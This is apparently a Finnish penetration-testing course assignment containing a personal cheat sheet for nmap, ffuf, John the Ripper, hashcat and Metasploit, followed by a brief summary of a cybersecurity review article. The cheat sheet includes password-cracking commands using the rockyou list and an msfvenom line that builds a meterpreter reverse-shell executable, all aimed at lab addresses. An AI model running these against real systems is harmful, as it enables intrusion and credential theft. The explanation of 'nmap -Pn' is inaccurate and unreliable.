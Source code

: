 # h6 Lähtölaskenta

Lipunryöstö lähestyy, ja samalla kurssin päätös. Nyt valmistaudutaan lipunryöstöön, ja kurssin jälkeiseen elämään. Tieteellisten artikkeleiden silmäily auttaa oppariaiheen valinnassa. Harjoitusmaalit opettavat käytännön hakkerointia.

## a) Oma Cheatsheet

# nmap : https://www.stationx.net/nmap-cheat-sheet/

    Yksinkertainen skannaus yhdelle IP-osoitteelle:
    nmap <IP-osoite>

    Skannaus useille IP-osoitteille:
    nmap <IP-osoite1> <IP-osoite2> <IP-osoite3> ...
    
    Skannaus IP-osoitealueelle:
    nmap <alkuosoite>-<loppuosoite>
    Esim: nmap 192.168.1.1-254

    Skannaus käyttäen CIDR-notaatiota:
    nmap <verkkopolkun-IP>/<maski-bittien-määrä>
    Esim: nmap 192.168.1.0/24

    Skannaus yhdestä tai useammasta IP-osoitteesta, jotka on lueteltu tiedostossa:
    nmap -iL <tiedoston-nimi>

    Skannaus yhdestä tai useammasta satunnaisesti valitusta IP-osoitteesta:
    nmap -iR <lukumäärä>
    Esimerkiksi: nmap -iR 100

    Skannaus tietyn palvelimen kaikkia IP-osoitteita:
    nmap <verkkotunnus>
    Esim: nmap google.fi

    Skannauksen tekeminen, joka ohittaa käyttöoikeuden tarkistukset ja on nopeampi:
    nmap -Pn <IP-osoite>




# fuff: https://cheatsheet.haax.fr/web-pentest/tools/ffuf/


    ffuf -w /usr/share/wordlists/wfuzz/general/common.txt -u http://127.0.0.2:8000/FUZZ # 

Selitetty:

/fuff : ajaa ffuf ohjelman
-w : mitä sanalistaa ohjelma käyttää
/usr/share/wordlists/wfuzz/general/common.txt : sanalistani sijainti
-u : määrittää kohteen
http:127.0.0.2:8000/FUZZ : fuzz sanaan ohjelma kokoeilee sanalistan sanat

# Jhon the ripper: https://www.stationx.net/how-to-use-john-the-ripper/ , https://terokarvinen.com/2023/crack-file-password-with-john/

Työkalun asennus ja ympäristön valmistelu:

    sudo apt-get update
    sudo apt-get -y install git build-essential libssl-dev
    git clone --depth=1 https://github.com/openwall/john.git
    cd john/src/
    configure && make -s clean && make -sj4
    cd ../run/

Sanakirjojen lataaminen ja käyttäminen:

    wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
    tar xf rockyou.txt.tar.gz
    rm rockyou.txt.tar.gz

Hash-tyypin tunnistaminen ja valmistelu:

    john --format=raw-md5 --wordlist=rockyou.txt hashfile.txt

Zip-tiedostojen salasanojen murtaminen:

    zip2john tero.zip > tero.zip.hash
    john --wordlist=rockyou.txt tero.zip.hash

Erilaiset murtomenetelmät:

    john --single hashfile.txt
    john --incremental hashfile.txt
    john --wordlist=/path/to/wordlist.txt --format=raw-sha1 hashfile.txt

Tulosten tarkistaminen:

    john --show tero.zip.hash


    

# hashcat: https://denizhalil.com/2023/11/01/hashcat-password-cracking/ , https://terokarvinen.com/2022/cracking-passwords-with-hashcat/

luo/saa/pura:

    sudo apt-get update
    sudo apt-get -y install hashid hashcat wget
    mkdir hashed
    cd hashed

    wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
    tar xf rockyou.txt.tar.gz
    rm rockyou.txt.tar.gz

tunnista:

    hashid -m 6b1628b016dff46e6fa35684be6acc96

Murra salasana:

    hashcat -m 0 -a 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved.txt

Tarkista murrettu salasana:

    cat solved.txt
    hashcat -m 0 6b1628b016dff46e6fa35684be6acc96 rockyou.txt



# msfvenom/metasploitable : https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

    msfconsole
    use multi/handler/payload
    SET payload 
    SET LHOST 
    SET LPORT 
    run -j

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.x LPORT=80 -f exe > payload.exe

    sessions -i 1

# sql injektio: https://portswigger.net/web-security/sql-injection/cheat-sheet

# b) Review. Etsi ja tiivistä vertaisarviotu katsausartikkeli valitsemaltasi kyberturvallisuuden tai hakkeroinnin alalta.


![image](https://github.com/SakuKarp/Tunkeutumistestaus/assets/148875105/63404ea1-14f4-4e9b-9450-15a75d744073)


https://academic.oup.com/cybersecurity/article/10/1/tyae001/7588826


Ennen COVIDia organisaatioita ja työntekijöitä uhkasivat monenlaiset haitat työntekijöiden huonojen tietoturvakäytäntöjen vuoksi

Tekniset ratkaisut eivät kykene estämään nollapäivän hyökkäyksiä ja jatkuvia uhkia, joten ihmisten on osallistuttava suojaamaan järjestelmiä

Tehokkaat tietoturvakäytännöt voivat sisältää palomuurien ja virustorjuntaohjelmien käytön, yksityisyysasetusten käytön ja haitallisten linkkien välttämisen

Organisaatiot järjestävät tietoisuuden lisäämis- ja koulutusohjelmia hyvien tietoturvakäytäntöjen varmistamiseksi, mutta näissä ohjelmissa on usein ongelmia

Monilla organisaatioilla oli ennen COVIDia vähemmän kuin optimaaliset tietoturvakäytännöt ja monet työntekijät eivät olleet valmiita työskentelemään turvallisesti kotoa pandemian huippukaudella

Uudet uhkat, kuten COVID-19-teemaiset hyökkäykset ja nollapäivän hyökkäykset, lisäsivät kyberriskejä pandemian aikana









# c) Valmiina lipunryöstöön.


## References

Lähteet ovat raportin sisällä
